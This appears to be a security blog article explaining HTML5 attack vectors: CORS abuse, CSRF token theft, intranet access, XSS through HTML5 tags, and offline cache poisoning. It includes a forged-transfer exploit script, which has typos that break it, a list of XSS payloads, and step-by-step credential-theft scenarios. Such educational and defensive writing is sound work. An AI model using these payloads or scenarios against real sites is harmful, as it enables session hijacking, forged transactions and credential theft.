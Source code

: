 HTML5 Attacks – Common/Uncommon Attack Vectors
----------------------------------------------

HTML5 has been already known for several years. It is one of the key technologies in the Internet. Most websites, transmitting video, slowly give up Adobe Flash technology and switches to HTML5. The fact is that HTML5 is still being developed, and yet it is already used by most websites, mobile applications and IoT. 

All the latest versions of browsers already offer full support for HTML5, and thus created all the time new improvements to the language itself. All these functions are designed in such a way as to facilitate the handling of multimedia and graphical content without having to use any third-party plug-ins or API. The purpose of this article is to introduce to the few attacks on HTML5 and demonstrate how a hacker can quickly take control of your browser.

CORS (Cross Origin Resource Sharing) Attacks
----------------------------------------------

HTML5 must meet the growing needs of developers who want to create high-quality site. At the same time HTML5 has to get rid of some restrictions which were introduced earlier by SOP (Same Origin Policy). Same Origin Policy allowed scripts that come from one place to communicate with each other and benefit from their common methods, but made it impossible to access scripts from different locations. 

Now, to meet all the demands of developers, HTML5 has to break all the restrictions. For example, now Ajax requests can come from different domains and be carried out in various domains. SOP had a limit, consisting in the fact that both the website and scripts on the executed had come from the same domain. Now, without the SOP, a malicious Web page can load any information from any domain using the credentials of the victim and sending this data between multiple domains.

What does it mean? So long as the Website, let's call it Website A, can exchange data with another website, Website B, Website B can read all the data from the site Website A. This was possible by creating an exploit, using HTTP tunnel and a simple tool called Shell of the Future. The tool is based on the simple principle that if a party has an XSS vulnerability and JavaScript code can be executed, than innocent user can by clicking on infected link perform so called Cross Origin Requests. If the tool is used in the correct manner, the attacker can view the sessions of its victims and direct requests to the server, pretending to be the victim. Shell of the Future is a subject for a different article and will not be discussed here.

The fact is that you can takeover a session of any user using XSS vulnerability. This is possible only thanks to the COR support of HTML5 and it allows some tunneled connections. 
But my site is secure I am using CSRF tokens …

HTML5 allows to steal CSRF tokens. For example, if the token goes in the URL, or the GET request, you can safely steal CSRF tokens, and this is consistent with the definition of CORS. An attacker could freely use CSRF token and the user will not even notice. To carry out this attack, attribute "withCredentials" has to be set to true and Access-Control-Allow-Origin to '*'. Let's see how it can be used.

Suppose that your website has CSRF protection, and the token is sent GET request. Now the attacker sends a link to the user together with a valid CSRF token and a link to controlled site. The attacker can now be mediated by the Ajax request in the communication between a bank customer and the bank. Below exploit code that could be used:

    <script>
    function exploit()
    {
      var xmlhttp;
      if(window.XMLHttpRequest)
      {
        xmlhttp=new XMLHttpRequest();
      }
    else
    {
      xlmlhttp=new ActiveXObject(“Microsof.XMLHTTP”);
    }
    xmlhttp.open(“GET”,”http://localhost/myBank/transfer.hmlt”,false);
    xmlhttp.send();
    if(xmlhttp.status=200)
    {
      var str=xmlhttp.responseText;
      var n=str.search(“csrfToken”);
      var final=str.substring(n+18,n+28);
      var url = “http://loclhost/myBank/TransferFund.html?datum1%2F=06-06-2013&amp;Account=1234&amo;csrfToken=” + escape(final);
    xmlhttp.open(“GET”, url, true);
    xmlhttp.send();
    }
    
    </script>
    </head>
    <body onload=”exploit();”>
    </body>


Getting inside Intranet
-----------------------

Many companies have internal sites, which are used for employees. They are usually Intranet applications and are not available on the Web. Because it is a lot of them and they are used by employees in their daily work, they must work together. Unfortunately, most developers sets the header Access-Control-Allow-Origin: * and allows to carry out the CORS attack. It can be really well used by the attacker, who probably will use social engineering and compel employees to click on a suspicious link, and then in a very easy way to attack the internal enterprise applications. Here is an example of such an attack.

1) The internal corporate employee logs on to the intranet.
2) The server returns a response containing the Access-Control-Allow-Origin: * because it communicates well with other applications in the company.
3) The employee receives an e-mail that contains a link to the page with great graphics SVG. Each of these images contain hidden JavaScript code that will run when it is displayed. This is discussed in a separate article.
4) Code JavaScript XMLHttpRequest send silently in the background and waits for a response. This can be done because the appropriate headers are set to be (X-XSS-Protection: 1; Access-Control-Allow-Origin: *).
5) JavaScript analyzes the answers and sends back to the attacker's servers. Virus checking and other control measures have been omitted. We will show how to use this feature soon.
6) We are in the company and act as an employee, and no one will know what happened.

The new vectors of attack XSS in HTML5
-----------------------

Developers in every company will develop their own filters to block XSS attacks on websites. Most of these models on a few simple examples of OWASP. However, HTML5 introduced a tremendous amount of tags to enable support for audio and video. Below are some possible attack vectors that are used virtually every day.


    <video> <source onerror=”javascript:alert(1)”>
    <vide onerror=”javascript:alert(1)”><source>
    <audio onerror=”javascript:alert(1)”><source>
    <input autofocus onfocus=alert(1)>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <button form=test onformchange=alert(2)>X
    <form><button formaction=”javascript:alert(1)”>

Darknet Technique: Offline Web Application Cache Poisoning
----------------------------------------------------------

There is a certain functionality of most web browsers, called an offline cache processing. The functionality has been implemented by most browsers. The functionality is based on the fact that the application can process the contents of the page, even when you use it offline. The main problem of this feature is that an attack "cache poisoning" can be performed using this feature. If an attacker manages to replace at least one file of the site, it has full control over the user account. This can be done eg. using SVG file. You know what is the difference between HTML4 and HTML5? HTML5 essentially does not allow to cache all the files, but it allows you to cache specific files. Using this function, the attacker can steal login details belonging to any user. The following is a sample scenario of attack.

1) The user connects to an unsecured WiFi network at the mall and browse to a page, for example Facebook.
2) A hacker responds to this request by displaying the iframe Facebook login page, the user's browser automatically sends a request to the Facebook page. Login page to Facebook can be replaced by any application, including banking application.
3) Because the network is controlled by a hacker, the user will see a normal login page, but inside will be located additional JavaScript code. In addition, the page contains the appropriate tags, which require her to cache the user's system, so the page is already cached in the browser cache.
4) The sacrifice of a few hours, days, etc etc, it connects to the selected web page, in this case Facebook, but Facebook login page was buffered in a user's system. A page exactly substituted by hackers was buffered in a user's system.
5) The sacrifice is part of the link, and the browser loads a fake site from the cache.
6) The victim introduces credentials that are transported to the attacker. By the way, an attacker can mediate communication between Facebook and the innocent victim.

So through cache poisoning, the attacker can steal user's credentials. 


Summary
-------

Most of these tricks usually are not used or tested against, making it easier for Cybercriminals.

Please make sure you test your website for this problems.


References:

http://resources.infosecinstitute.com/demystifying-html-5-attacks/


http://silenceonthewire.pl/index.php/ataki-na-html5-wprowadzenie/



